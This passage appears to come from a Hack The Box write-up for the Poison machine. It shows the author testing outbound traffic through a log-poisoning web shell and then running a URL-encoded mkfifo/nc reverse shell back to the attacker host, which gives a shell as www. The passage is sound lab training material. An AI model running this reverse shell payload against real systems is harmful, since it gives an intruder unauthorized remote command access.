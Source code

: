 ![](https://0xdfimages.gitlab.io/img/poison_poisoned.png)

## Reverse Shell

Just like we didn’t need the webshell, we don’t really need a reverse shell to
complete Poison. Even if we hadn’t found `pwdbackup.txt` with `listfiles.php`,
we still could find it now running `ls` in our webshell. Still, the fun of HTB
is getting shells, so let’s get one with this web shell.

### Check Connectivity

A ping shows that we can generate outbound network traffic back to our host:

    
    
    view-source:http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&c=ping 10.10.14.6
    
    
    
    root@kali# tcpdump -i tun0 icmp
    tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
    listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
    13:03:55.775947 IP 10.10.10.84 > kali: ICMP echo request, id 30469, seq 0, length 64
    13:03:55.775985 IP kali > 10.10.10.84: ICMP echo reply, id 30469, seq 0, length 64
    13:03:56.799382 IP 10.10.10.84 > kali: ICMP echo request, id 30469, seq 1, length 64
    13:03:56.799404 IP kali > 10.10.10.84: ICMP echo reply, id 30469, seq 1, length 64
    

A quick test with `nc` shows that we can get tcp connections back as well:

    
    
    view-source:http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&c=nc 10.10.14.6 8081
    
    
    
    root@kali# nc -lnvp 8081
    listening on [any] 8081 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.10.84] 30536
    

### Shell as www

So let’s use the robust pipe shell from [Pentest Monkey’s
Cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-
sheet) and get a shell. Visit `view-
source:http://10.10.10.84/browse.php?file=/var/log/httpd-
access.log&c=rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f|/bin/sh%20-i%202%3E%261|nc%2010.10.14.6%209001%20%3E/tmp/f`,
and:

    
    
    root@kali# nc -lnvp 9001
    listening on [any] 9001 ...
    connect to [10.10.14.6] from (UNKNOWN) [10.10.10.84] 19226
    sh: can't access tty; job control turned off
    $ pwd
    /usr/local/www/apache24/data
    $ id
    uid=80(www) gid=80(www) groups=80(www)
    